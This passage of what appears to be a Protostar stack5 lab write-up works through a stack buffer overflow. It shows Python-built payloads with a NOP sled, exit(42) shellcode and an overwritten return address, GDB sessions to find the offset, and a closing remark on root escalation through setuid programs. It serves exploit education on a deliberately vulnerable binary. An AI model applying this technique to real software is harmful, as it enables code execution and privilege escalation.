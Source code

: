 \begin{lstlisting}
user@protostar:~/stack/5$ python -c 'print "\x90"*64 + "\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80" + "\xf0\xf0\xf0\xf0"' > testinput
user@protostar:~/stack/5$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) r < testinput
Starting program: /opt/protostar/bin/stack5 < testinput

Program received signal SIGSEGV, Segmentation fault.
0xb700f0f0 in ?? ()
(gdb) q
A debugging session is active.

        Inferior 1 [process 3752] will be killed.

Quit anyway? (y or n) y
user@protostar:~/stack/5$ python -c 'print "\x90"*66 + "\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80" + "\xf0\xf0\xf0\xf0"' > testinput
user@protostar:~/stack/5$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) r < testinput
Starting program: /opt/protostar/bin/stack5 < testinput

Program received signal SIGSEGV, Segmentation fault.
0xf0f0f0f0 in ?? ()
\end{lstlisting}

Here, the \texttt{0xf0f0f0f0} bytes make for a convenient ``flag" to search
for. Luckily, the first guess had us partially overwriting the return pointer,
so it was easy to adjust things for a proper overwrite. Now, remembering
that our buffer began at \texttt{0xbffff780}, we simply use this address
for the return pointer, though anything in the range \texttt{0xbffff780}-\texttt{0xbffff7c2} should work.

\begin{lstlisting}
user@protostar:~/stack/5$ python -c 'print "\x90"*66 + "\x31\xc0\x31\xdb\xb3\x2a\xb0\x01\xcd\x80" + "\x80\xf7\xff\xbf"' > testinput
user@protostar:~/stack/5$ /opt/protostar/bin/stack5 < testinput
user@protostar:~/stack/5$ echo $?
42
\end{lstlisting}

Excellent! So now, we're intelligently corrupting data to make a vulnerable program
execute instructions we provide! It's not too difficult to imagine such an
attack having a large impact. For example, if we had found a similar vulnerability
in a setuid program owned by root, it's possible for us to execute instructions
with root permissions. Or, perhaps we need to modify some variables a program
uses internally, but we don't have permissions to attach a debugger to it.
It isn't difficult to see how something like this can be abused.
